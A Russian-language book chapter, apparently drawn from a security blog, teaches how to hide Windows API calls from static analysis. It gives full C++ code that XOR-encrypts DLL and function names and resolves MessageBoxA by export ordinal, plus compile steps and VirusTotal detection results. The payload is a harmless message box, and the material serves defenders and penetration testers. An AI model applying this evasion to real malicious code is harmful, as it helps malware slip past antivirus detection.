








\newpage
\subsection{57. Техники обхода антивирусов - часть 4. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот раздел является результатом самостоятельного исследования ещё одного трюка обхода антивирусов. Пример обхода антивирусных движков с помощью простого вредоносного ПО на C++.   

Этот трюк касается того, как скрыть вызовы Windows API от статического анализа.    

Когда вам нужно взаимодействовать с операционной системой Windows, вам необходимо вызывать API Windows, например, из `user32.dll`, такие как `MessageBoxA` или другие API. Если вы указываете вызовы API в коде, то компилятор включит `MessageBoxA` или все необходимые API в таблицу импортов вашего PE-файла. Это может дать аналитикам вредоносного ПО повод более внимательно исследовать ваш код.    

### что такое ординалы?   

Каждая функция, экспортируемая DLL, идентифицируется числовым ординалом и, возможно, именем. Функции могут импортироваться из DLL как по ординалу, так и по имени. Ординал представляет собой позицию указателя на адрес функции в таблице экспортируемых адресов DLL.

В одном из моих [постов](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) я написал простой Python-скрипт, который перечисляет экспортируемые функции из указанной DLL (`dll-def.py`):    

```python
import pefile
import sys
import os.path

dll = pefile.PE(sys.argv[1])
dll_basename = os.path.splitext(sys.argv[1])[0]

try:
    with open(sys.argv[1]
    .split("/")[-1]
    .replace(".dll", ".def"), "w") as f:
        f.write("EXPORTS\n")
        for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
            if export.name:
                f.write(
                '{}={}.{} @{}\n'.format(
                export.name.decode(), 
                dll_basename, 
                export.name.decode(), 
                export.ordinal))
except:
    print ("не удалось создать .def файл :(")
else:
    print ("успешно создан .def файл :)")
```

Давайте запустим его для `user32.dll`:

```bash
python3 dll-def.py user32.dll
```

{width="80%"}    

{width="80%"}    

Как видите, например, для `MessageBoxA` ординал равен `2039`, для `MessageBoxW` - `2046`.    

### практический пример.    

Рассмотрим практический пример.    

Ординалы могут изменяться при каждом выпуске DLL. Мы не будем жестко кодировать их в программе. Нам нужно искать ординалы, перебирая список и выполняя строковое сравнение. Однако эта активность противоречит нашей цели скрытия имени API в коде, поскольку нам придётся использовать строковое сравнение во время поиска.    

Этот метод очень прост.   

Прежде всего, я использовал трюк из моего [поста](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) (также включённого в эту книгу):    

```cpp
// encrypted function name (MessageBoxA)
unsigned char s_mb[] = { 0x20, 0x1c, 0x0, 0x6, 0x11, 0x2, 
0x17, 0x31, 0xa, 0x1b, 0x33 };

// encrypted module name (user32.dll)
unsigned char s_dll[] = { 0x18, 0xa, 0x16, 0x7, 0x43, 
0x57, 0x5c, 0x17, 0x9, 0xf };

// key
char s_key[] = "mysupersecretkey";

// XOR decrypt
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

```

И используем скрипт Python для шифрования имени нашей функции с помощью XOR:

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

ciphertext, p_key = xor_encrypt("user32.dll", 
my_secret_key)
ciphertext, p_key = xor_encrypt("MessageBoxA", 
my_secret_key)
```

Итак, в нашем случае мы шифруем строки `user32.dll` и `MessageBoxA`.

В общем, мы используем таблицу указателей имен (NPT) и таблицу порядковых номеров экспорта (EOT) для поиска порядковых номеров экспорта.

Поэтому я использовал функцию для получения таблицы каталогов экспорта:

```cpp
// get export directory table
PIMAGE_EXPORT_DIRECTORY getEDT(HMODULE module) {
  PBYTE base; // base address of module
  PIMAGE_FILE_HEADER img_file_header; // COFF file header
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  DWORD rva; // relative virtual address of EDT
  PIMAGE_DOS_HEADER img_dos_header; // MS-DOS stub
  PIMAGE_OPTIONAL_HEADER img_opt_header; // "optional" header
  PDWORD sig;  // PE signature

  // Start at the base of the module. 
  // The MS-DOS stub begins there.
  base = (PBYTE)module;
  img_dos_header = (PIMAGE_DOS_HEADER)module;

  // Get the PE signature and verify it.
  sig = (DWORD*)(base + img_dos_header->e_lfanew);
  if (IMAGE_NT_SIGNATURE != *sig) {
    // bad signature -- invalid image or module handle
    return NULL;
  }

  // Get the COFF file header.
  img_file_header = (PIMAGE_FILE_HEADER)(sig + 1);

  // get the "optional" header 
  // (it's not actually optional for executables).
  img_opt_header = (PIMAGE_OPTIONAL_HEADER)(img_file_header + 1);

  // finally, get the export directory table.
  if (IMAGE_DIRECTORY_ENTRY_EXPORT 
  >= img_opt_header->
  NumberOfRvaAndSizes) {
    // this image doesn't have an 
    // export directory table.
    return NULL;
  }
  rva = img_opt_header->
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress;
  edt = (PIMAGE_EXPORT_DIRECTORY)(base + rva);

  return edt;
}
```

И ищет указанную процедуру в таблице указателей имен модуля (NPT):

```cpp
// binary search
DWORD findFuncB(PDWORD npt, DWORD size, PBYTE base, LPCSTR proc) {
  INT   cmp;
  DWORD max;
  DWORD mid;
  DWORD min;

  min = 0;
  max = size - 1;

  while (min <= max) {
    mid = (min + max) >> 1;
    cmp = strcmp((LPCSTR)(npt[mid] + base), proc);

    if (cmp < 0) {
      min = mid + 1;
    } else if (cmp > 0) {
      max = mid - 1;
    } else {
      return mid;
    }
  }
  return -1;
}
```

Как вы можете видеть, это просто удобная функция, которая выполняет двоичный поиск NPT.

Наконец, получим порядковый номер:

```cpp
// get func ordinal
DWORD getFuncOrd(HMODULE module, LPCSTR proc) {
  PBYTE base; // module base address
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  PWORD eot;  // export ordinal table (EOT)
  DWORD i;  // index into NPT and/or EOT
  PDWORD npt;  // name pointer table (NPT)

  base = (PBYTE)module;

  // get the export directory table, 
  // from which we can find the name pointer
  // table and export ordinal table.
  edt = getEDT(module);

  // get the name pointer table and 
  // search it for the named procedure.
  npt = (DWORD*)(base + edt->AddressOfNames);
  i = findFuncB(npt, edt->NumberOfNames, base, proc);
  if (-1 == i) {
    // the procedure was not found 
    // in the module's name pointer table.
    return -1;
  }

  // get the export ordinal table.
  eot = (WORD*)(base + edt->AddressOfNameOrdinals);

  // actual ordinal is ordinal 
  // from EOT plus "ordinal base" from EDT.
  return eot[i] + edt->Base;
}
```

И идея функции `main` без проверки ошибок:    

```cpp
int main(int argc, char* argv[]) {
  XOR((char *) s_dll, sizeof(s_dll), s_key, sizeof(s_key));
  XOR((char *) s_mb, sizeof(s_mb), s_key, sizeof(s_key));
  LoadLibrary((LPCSTR) s_dll)
  HMODULE module = GetModuleHandle((LPCSTR) s_dll);
  DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
  fnMessageBoxA myMessageBoxA = 
  (fnMessageBoxA)GetProcAddress(
  module, MAKEINTRESOURCE(ord));
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Итак, полный исходный код нашего примера: 

```cpp
/*
 * hack.cpp - Find function from DLL 
 via ordinal. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/18/simple-malware-av-evasion-4.html
*/
#include <stdio.h>
#include "windows.h"

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

// encrypted function name (MessageBoxA)
unsigned char s_mb[] = { 0x20, 0x1c, 0x0, 0x6, 0x11, 0x2, 
0x17, 0x31, 0xa, 0x1b, 0x33 };

// encrypted module name (user32.dll)
unsigned char s_dll[] = { 0x18, 0xa, 0x16, 0x7, 0x43, 
0x57, 0x5c, 0x17, 0x9, 0xf };

// key
char s_key[] = "mysupersecretkey";

// XOR decrypt
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

// binary search
DWORD findFuncB(PDWORD npt, DWORD size, PBYTE base, LPCSTR proc) {
  INT   cmp;
  DWORD max;
  DWORD mid;
  DWORD min;

  min = 0;
  max = size - 1;

  while (min <= max) {
    mid = (min + max) >> 1;
    cmp = strcmp((LPCSTR)(npt[mid] + base), proc);

    if (cmp < 0) {
      min = mid + 1;
    } else if (cmp > 0) {
      max = mid - 1;
    } else {
      return mid;
    }
  }
  return -1;
}

// get export directory table
PIMAGE_EXPORT_DIRECTORY getEDT(HMODULE module) {
  PBYTE base; // base address of module
  PIMAGE_FILE_HEADER img_file_header; // COFF file header
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  DWORD rva; // relative virtual address of EDT
  PIMAGE_DOS_HEADER img_dos_header;  // MS-DOS stub
  PIMAGE_OPTIONAL_HEADER  img_opt_header; // "optional" header
  PDWORD sig;  // PE signature

  // start at the base of the module. 
  // The MS-DOS stub begins there.
  base = (PBYTE)module;
  img_dos_header = (PIMAGE_DOS_HEADER)module;

  // get the PE signature and verify it.
  sig = (DWORD*)(base + img_dos_header->e_lfanew);
  if (IMAGE_NT_SIGNATURE != *sig) {
    // bad signature -- invalid image or module handle
    return NULL;
  }

  // get the COFF file header.
  img_file_header = (PIMAGE_FILE_HEADER)(sig + 1);

  // get the "optional" header 
  // (it's not actually optional for executables).
  img_opt_header = (PIMAGE_OPTIONAL_HEADER)
  (img_file_header + 1);

  // Finally, get the export directory table.
  if (IMAGE_DIRECTORY_ENTRY_EXPORT 
  >= img_opt_header->
  NumberOfRvaAndSizes) {
    // this image doesn't have an 
    // export directory table.
    return NULL;
  }
  rva = img_opt_header->
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress;
  edt = (PIMAGE_EXPORT_DIRECTORY)(base + rva);

  return edt;
}

// get func ordinal
DWORD getFuncOrd(HMODULE module, LPCSTR proc) {
  PBYTE base; // module base address
  PIMAGE_EXPORT_DIRECTORY edt;  // export directory table
  PWORD eot;  // export ordinal table (EOT)
  DWORD i;  // index into NPT and/or EOT
  PDWORD npt;  // name pointer table (NPT)

  base = (PBYTE)module;

  // get the export directory table, 
  // from which we can find the name pointer
  // table and export ordinal table.
  edt = getEDT(module);

  // get the name pointer table and 
  // search it for the named procedure.
  npt = (DWORD*)(base + edt->AddressOfNames);
  i = findFuncB(npt, edt->NumberOfNames, base, proc);
  if (-1 == i) {
    // the procedure was not found in 
    // the module's name pointer table.
    return -1;
  }

  // get the export ordinal table.
  eot = (WORD*)(base + edt->AddressOfNameOrdinals);

  // actual ordinal is ordinal 
  // from EOT plus "ordinal base" from EDT.
  return eot[i] + edt->Base;
}

int main(int argc, char* argv[]) {
  XOR((char *) s_dll, sizeof(s_dll), s_key, sizeof(s_key));
  XOR((char *) s_mb, sizeof(s_mb), s_key, sizeof(s_key));

  if (NULL == LoadLibrary((LPCSTR) s_dll)) {
    printf("failed to load library :( %s\n", s_dll);
    return -2;
  }

  HMODULE module = GetModuleHandle((LPCSTR) s_dll);
  if (NULL == module) {
    printf("failed to get a handle to %s\n", s_dll);
    return -2;
  }

  DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
  if (-1 == ord) {
    printf("failed to find ordinal %s\n", s_mb);
    return -2;
  }

  fnMessageBoxA myMessageBoxA = 
  (fnMessageBoxA)GetProcAddress(
  module, MAKEINTRESOURCE(ord));
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте скомпилируем наш пример:   

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \ 
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И запустим:   

```cmd
.\hack.exe
```

{width="80%"}    

Как видите, всё работает идеально. Для чистоты эксперимента я добавил одну строку в `hack.cpp` в функцию `main`:    

```cpp
//..
DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
if (-1 == ord) {
  printf("не удалось найти ординал %s\n", s_mb);
  return -2;
}
printf("Ординал MessageBoxA: %d\n", ord);
//..
```

Компилируем и запускаем:   

{width="80%"}    

Как видите, наше вредоносное ПО успешно находит правильный ординал. Отлично :)    

Результат поиска строк:   

```bash
strings -n 8 hack.exe | grep MessageBox
```

{width="80%"}    

Как видите, `MessageBox` отсутствует в проверке строк. Вот так можно скрыть вызовы Windows API от статического анализа.    

Давайте загрузим файл на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/f75d7f5f33fc5c5e03ca22bbeda0454cd9b6aab3009fdd109433bc6208f3d301/detection](https://www.virustotal.com/gui/file/f75d7f5f33fc5c5e03ca22bbeda0454cd9b6aab3009fdd109433bc6208f3d301/detection)    

**Итак, 6 из 68 антивирусных движков обнаружили наш файл как вредоносный.**    

Надеюсь, этот пост повысит осведомлённость специалистов по защите информации о данной интересной технике и добавит новый инструмент в арсенал пентестеров.    

[pe file format](https://cocomelonc.github.io/tutorial/2021/10/31/windows-shellcoding-3.html)    
[pefile - python module](https://github.com/erocarrera/pefile)    
[XOR](https://en.wikipedia.org/wiki/XOR_cipher)    
[исходный код на github](https://github.com/cocomelonc/2022-03-18-malware-av-evasion-4)    
